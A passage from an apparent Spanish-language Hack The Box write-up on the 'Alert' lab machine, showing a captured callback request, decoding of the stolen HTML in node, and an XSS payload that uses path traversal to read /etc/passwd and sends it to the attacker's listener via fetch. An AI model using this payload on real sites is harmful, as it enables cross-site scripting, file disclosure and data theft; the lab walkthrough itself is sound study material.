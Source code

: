 ```
connect to [10.10.14.191] from (UNKNOWN) [10.129.95.162] 60474
GET /?res=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1
Host: 10.10.14.191
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Accept: */*
Origin: http://alert.htb
Referer: http://alert.htb/
Accept-Encoding: gzip, deflate
```

Decodificamos el parámetro `res` en URL:

```
node

> const content = '%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A'
> const decoded = decodeURIComponent(content)
> console.log(decoded)
```

```html
<h1>Messages</h1>
<ul>
    <li>
        <a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a>
    </li>
</ul>
```

Hay un enlace al propio `messages.php` con un parámetro `file`. Podemos probar un path traversal en él.

Utilizamos el mismo payload que antes pero con el parámetro file = `../../../../../../etc/passwd`.

```
<script>
(async () => {
const res = await fetch('http://alert.htb/messages.php?file=../../../../../../etc/passwd')
const text = await res.text()
fetch('http://10.10.14.191/?res=' + encodeURIComponent(text))
})()
</script>
```

Cuando lo recibimos y lo decodificamos en `URL`:

```
node

```